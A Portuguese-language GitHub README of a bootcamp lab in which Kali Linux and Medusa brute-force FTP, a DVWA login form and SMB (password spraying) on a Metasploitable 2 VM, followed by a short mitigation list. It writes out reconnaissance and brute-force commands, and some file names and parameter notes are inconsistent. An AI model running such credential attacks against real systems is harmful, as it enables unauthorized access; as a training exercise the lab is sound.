# Laboratorio: Criando um ataque de brute force de senhas com medusa e kali linux (DIO)
Este repositório documenta a execução de um desafio prático de segurança da informação, focado em ataques de força bruta. O projeto foi desenvolvido como parte do bootcamp de Cyber Segurança do Santander - Cibersegurança 2025 - DIO.

*Autor:* Marcelo Leal

*LinkedIn:* https://www.linkedin.com/in/slmarcelo/

---

##  Descrição do Desafio

O objetivo deste projeto é implementar e documentar um cenário prático de ataque de força bruta utilizando *Kali Linux* e a ferramenta *Medusa. O ambiente de teste controlado é composto por máquinas virtuais vulneráveis (como **Metasploitable 2* e *DVWA*) para simular ataques a diferentes serviços (FTP, Web e SMB) e, em seguida, propor as devidas medidas de mitigação.

## 1. Configuração do Ambiente (Laboratório)

Para a realização dos testes, foi configurado um laboratório virtual isolado, garantindo que todas as atividades de pentest ficassem contidas e seguras.

* *Software de Virtualização:* VirtualBox
* *Configuração de Rede:* "Rede Interna" (VirtualBox) para isolar as VMs do restante da rede.

### Máquinas Virtuais

| Propósito | Sistema Operacional | Endereço IP (Exemplo) |
| :--- | :--- | :--- |
| 📍 *Atacante* | Kali Linux | 192.168.56.xxx |
| 🎯 *Vítima* | Metasploitable 2 | 192.168.56.xxx |

### Ferramentas Utilizadas

* *Nmap:* Para reconhecimento e escaneamento de portas e serviços.
* *Medusa:* Ferramenta principal para a execução dos ataques de força bruta.
* *Enum4Linux:* Para enumeração de usuários no serviço SMB.
* *Wordlists:* Listas de senhas e usuários


## 2. Descobrir IPs e verificar a conectividade entre as maquinas

Para descobrir o ip do Kali 

bash
ip addr

Com os seguintes comando é possivel descobrir os ips da rede para encontrar a VM Metasploitable

```bash
arp  -a
```

```bash
sudo nmap -sn 192.168.56.0/24
```

```bash 
sudo netdiscover -r 192.168.56.0/24
```




Com os comando acima descobrimos que o ip da nossa VM Metasploitable é IP: 192.168.56.103

Confirmando o IP no Metasploitable



### 3. Reconhecimeto (nmap)

Com  o seguinte comando vamos verificar os serviços disponiveis no sistema alvo

```bash
nmap -sV -p 21,22,80,445,139 192.168.56.103
```



Apos rodar o scan temos os serviço e as versoes que estão rodando 

Para confirma se o serviço esta ativo vamos realizar a tentativa de conexao 




### 3.a Criando a wordlist para utilizar no ataque

No terminal do kali vamos digitar o sguinte comando 

Para criar a wordlist com os usuarios

```bash
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt
```
para criar a wordlist com os senhas

```bash
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt
```




### 3.b O ataque (com o medusa)

Vamos utilizar o seguinte comando para executar o ataque

```bash
medusa -h 192.168.56.103 -U users.txt -P pass.txt -M ftp -t 6 -f
```

Parâmetros principais:

-h host alvo

-U arquivo com usuário(s)

-P arquivo com senhas

-M ftp módulo FTP

-T 6 threads (paralela)

-f parar ao encontrar sucesso (opcional)




Para validar o usuario e senha vamos executar o comando de acesso ao FTP

```bash
ftp 192.168.56.103 
```


### 4 Ataque ao Formulário Web (DVWA formularios de login)

Simular um ataque de força bruta em um formulário de login web (DVWA) usando o módulo HTTP/form do Medusa (ou ferramentas alternativas como Hydra/Patator).

Descobrindo os parametros que o navegador espera receber





Sabemos que o navegar espera receber (username; password; Login)

Executamos o seguinte comando 

```bash
medusa -h 192.168.56.103 -U users.txt -P pass.txt -M http \
-m PAGE:'/dvwa/login.php' \
-m FORM:'username=^USER^&password=^PASS^&Login=Login' \
-m 'FAIL=Login failed' -t 6
```


apos rodar o comando vamos obter o seguinte resultado



testando os dados obtidos




### 5. Ataque em cadeia, enumeração SMB + Password Spraying

Demonstrar a técnica de password spraying contra o serviço SMB/Windows (tentar poucas senhas comuns contra muitos usuários para evitar bloqueios).

Enumerando o usuarios com enum4linux 

```bash
enum4linux -a 192.168.56.103 | tee enum4_output.txt
```

Parametros

-a vai ativar todas as tenicas possiveis

tee grava a saida em arquivo


criar os arquivos de wordlist smb_users.txt e senhas_spray.txt

Users
```bash
echo -e "user\nmsfadmin\nservice" > smb_users.txt
```

senhas

```bash
echo -e "password\n123456\nWelcome123\nmsfadmin" > senhas_spray.txt
```



executando o ataque

```bash
medusa -h 192.168.56.103 -U users_smb.txt -P spray_pass.txt -M smb -T 4
```

Parâmetros

-h destino
-U lista de usuarios
-P lista de senhas
-M smbnt modulo para smb
-t 2 duas treads
-T 50 ate 50 hosts paralelos




### Como mitigar esses ataques

* Desativar serviços desnecessarios
* Utilize sftp scp
* Utilize senhas fortes
* Politicas de bloqueios por numeros de tentativas
* Manter sempre atualizados e validados
* Autenticação multifator
* Auditorias periodicas
* Monitorar e alertar
* Monitoramento inteligente de logs
* Segmentação de rede
* Qualquer tentativa de multiplos logins deve ser alertado
* Prevenção e conciencia tecnica


